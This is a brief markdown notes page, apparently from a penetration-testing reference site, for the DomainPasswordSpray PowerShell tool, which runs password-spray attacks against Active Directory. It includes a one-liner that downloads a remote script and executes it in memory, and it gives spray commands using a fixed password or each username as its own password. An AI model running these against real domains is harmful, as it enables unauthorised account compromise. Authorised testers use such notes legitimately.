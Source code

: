 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Invoke-Domainpasswordspray

Powershell script to perform password spray attack in Active Directory.

{{%resources fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

## Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crypt0rr/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

## Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

## URL List

- [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
